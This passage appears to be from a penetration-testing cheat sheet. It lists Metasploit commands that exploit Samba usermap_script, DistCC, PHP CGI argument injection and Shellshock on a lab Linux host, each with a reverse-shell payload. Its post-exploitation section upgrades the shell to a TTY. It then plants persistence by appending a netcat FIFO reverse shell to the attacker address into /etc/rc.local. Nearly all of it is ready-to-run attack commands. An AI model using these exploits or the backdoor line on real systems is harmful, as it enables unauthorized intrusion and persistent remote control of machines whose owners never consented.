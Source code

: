 ### Metasploit Framework for Linux

#### Common Linux Exploits

```bash
# Start Metasploit
msfconsole

# Search for Linux exploits
search type:exploit platform:linux

# Example: Samba usermap_script
use exploit/multi/samba/usermap_script
set RHOST 192.168.200.20
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.200.10
exploit

# Example: DistCC exploitation
use exploit/unix/misc/distcc_exec
set RHOST 192.168.200.20
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.200.10
exploit
```

#### Web Application Exploits

```bash
# PHP CGI argument injection
use exploit/multi/http/php_cgi_arg_injection
set RHOST 192.168.200.20
set TARGETURI /test.php
set LHOST 192.168.200.10
exploit

# Shellshock exploitation
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOST 192.168.200.20
set TARGETURI /cgi-bin/test.cgi
set LHOST 192.168.200.10
exploit
```

## 🏴‍☠️ Phase 5: Post-Exploitation

### Initial Access Stabilization

```bash
# Upgrade shell to TTY
python -c 'import pty; pty.spawn("/bin/bash")'
# or
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background and upgrade in Metasploit
sessions -u <session_id>

# Create reverse shell persistence
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.200.10 4444 >/tmp/f" >> /etc/rc.local
```
